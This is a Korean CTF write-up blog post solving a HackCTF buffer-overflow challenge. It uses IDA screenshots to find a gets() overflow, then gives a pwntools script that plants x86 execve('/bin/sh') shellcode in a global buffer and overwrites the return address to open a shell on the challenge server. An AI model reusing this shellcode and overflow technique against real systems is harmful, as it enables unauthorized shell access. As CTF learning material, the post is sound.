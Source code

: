 ```yaml
---
layout: post
title: "hackctf-내 버퍼가 흘러넘친다!!!"
categories: [hackctf]
tags: [pwnable]
redirect_from:
 - /2019/08/03/
---
```

다운받은 파일을 IDA로 실행시켰다.

![IDA - prob1 C__Users_이현우_Downloads_prob1 2019-08-03 오전 12_33_46 (2)](https://user-images.githubusercontent.com/51374792/62381526-a8939480-b586-11e9-9f8f-19afbb59912e.png)

name을 read 함수로 입력받고, s를 gets로 입력받는다.

s는 0x14=20이다.

그러면, read에 쉘 코드를 넣어둔 뒤, read의 주소를 s가 입력받을 때의 RET에 넣어주자.

주소를 찾아보자.

<img width="252" alt="캡처" src="https://user-images.githubusercontent.com/51374792/62382322-49cf1a80-b588-11e9-8944-cc67e80ed6c0.PNG">

이걸 보면, main+3에서 0x14만큼 스택이 형성되는 것을 알 수 있다.

그러므로 dummy는 없다고 생각하자.

main+41에서 name의 주소가 나온다.

name의 주소 : 0x0804a060

```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz',3003)

shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
ret="\x60\xa0\x04\x08"
code="A"*24 #s(20)+SFP(4)
code+=ret

p.recvuntil("Name : ")
p.sendline(shellcode)
p.recvuntil("input : ")
p.sendline(code)

p.interactive()
p.close()
```